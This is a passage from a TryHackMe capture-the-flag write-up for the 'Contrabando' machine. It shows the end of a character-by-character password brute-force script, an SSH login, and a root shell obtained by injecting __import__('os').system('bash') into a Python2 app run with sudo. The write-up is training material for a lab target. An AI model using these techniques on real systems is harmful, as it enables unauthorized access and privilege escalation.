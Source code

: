 ```python
            text=True
        )
        stdout, stderr = proc.communicate(input=attempt + "\n")
        if "Password matched!" in stdout:
            password += char
            found = True
            break
    if not found:
        break

print(f"\r[+] Final Password: {password}")
```

This brute-forces the vault password.

Now login as hansolo with discovered password:

```bash
ssh hansolo@10.10.136.151
hansolo@10.10.136.151's password:
```

---

## 10\. Privilege Escalation: Python2 RCE Root Shell

Run the vulnerable app:

```bash
sudo /usr/bin/python2 /opt/generator/app.py
```

When prompted, inject Python RCE:

```text
__import__("os").system("bash")
```

Now root shell:

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 11\. Capture Root Flag

```bash
cat /root/root.txt
```

---

# ✅ Completed: Contrabando Machine (TryHackMe)

This machine demonstrated:

* Advanced enumeration with custom Python tools
    
* Double URL encoding LFI
    
* HTTP Request Smuggling (CVE-2023-25690)
    
* Pivoting and Flask SSTI exploitation
    
* Privilege escalation via custom brute-forcing and Python2 RCE
    

---
